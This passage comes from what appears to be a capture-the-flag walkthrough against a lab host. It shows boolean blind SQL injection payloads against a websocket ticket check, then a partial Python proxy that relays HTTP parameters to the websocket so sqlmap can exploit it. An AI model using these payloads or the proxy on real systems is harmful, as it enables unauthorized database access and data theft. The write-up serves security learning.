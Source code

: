 Again, we see that the ticket exists for payload `69081 AND 1=1 -- - `.

In the first case, due to the `AND 1=2` the whole query returns nothing and we see the error message `Ticket Doesn't Exist`.

In the second case, the `AND 1=1` returns a valid ticket and we see `Ticket Exists`.

This confirms there is a blind SQL injection in the websocket.

# EXPLOITING SQL INJECTION

Unfortunately, `sqlmap` does not have the support for testing websockets.

But we can definitely create a proxy HTTP service that redirects the message to the websocket.

```python

from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
```